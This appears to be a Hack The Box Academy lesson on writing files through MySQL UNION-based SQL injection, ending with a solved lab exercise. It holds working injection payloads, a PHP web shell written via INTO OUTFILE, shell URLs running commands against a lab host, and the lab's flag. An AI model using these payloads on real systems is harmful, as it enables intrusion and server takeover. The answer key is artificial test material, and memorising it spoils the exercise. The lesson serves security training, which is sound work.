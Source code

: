 # Writing Files

When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

***

### Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the `FILE` privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the `secure_file_priv` global variable.

**secure\_file\_priv**

The [secure\_file\_priv](https://mariadb.com/kb/en/server-system-variables/#secure\_file\_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, `NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege. However, `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to `NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value of `secure_file_priv`. Within `MySQL`, we can use the following query to obtain the value of this variable:

Code: sql

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using a `UNION` injection, we have to get the value using a `SELECT` statement. This shouldn't be a problem, as all variables and most configurations' are stored within the `INFORMATION_SCHEMA` database. `MySQL` global variables are stored in a table called [global\_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns `variable_name` and `variable_value`.

We have to select these two columns from that table in the `INFORMATION_SCHEMA` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the `secure_file_priv` variable, using the `WHERE` clause we learned about in a previous section.

The final SQL query is the following:

Code: sql

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to other `UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns `1` & `4` as junk data to have a total of 4 columns':

Code: sql

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![](https://academy.hackthebox.com/storage/modules/33/secure\_file\_priv.jpg)

And the result shows that the `secure_file_priv` value is empty, meaning that we can read/write files to any location.

***

### SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the `SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the `users` table into the `/tmp/credentials` file:

Writing Files

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and `cat` the file, we see that table's content:

Writing Files

```shell-session
AIceBear@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

Code: sql

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we `cat` the file, we see that text:

Writing Files

```shell-session
AIceBear@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

Writing Files

```shell-session
AIceBear@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

As we can see above, the `test.txt` file was created successfully and is owned by the `mysql` user.

Tip: Advanced file exports utilize the 'FROM\_BASE64("base64\_data")' function in order to be able to write long/advanced files, including binary data.

***

### Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write `file written successfully!` to the `/var/www/html/proof.txt` file, which we can then access on the web application:

Code: sql

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The `UNION` injection payload would be as follows:

Code: sql

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

![](https://academy.hackthebox.com/storage/modules/33/write\_proof.png)

We don’t see any errors on the page, which indicates that the query succeeded. Checking for the file `proof.txt` in the webroot, we see that it indeed exists:

![](https://academy.hackthebox.com/storage/modules/33/write\_proof\_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

***

### Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:

Code: php

```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`:

Code: sql

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_shell.png" alt=""><figcaption></figcaption></figure>

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

![](https://academy.hackthebox.com/storage/modules/33/write\_shell\_exec\_1.png)

The output of the `id` command confirms that we have code execution and are running as the `www-data` user.

**Questions**

Find the flag by using a webshell.

```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
//And the result shows that the secure_file_priv value is empty, meaning that we can read/write files to any location.
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
http://94.237.56.248:30273/shell.php?0=id
http://94.237.56.248:30273/shell.php?0=ls%20..%2F
http://94.237.56.248:30273/shell.php?0=cat%20..%2Fflag.txt
d2b5b27ae688b6a0f1d21b7d3a0798cd 
```
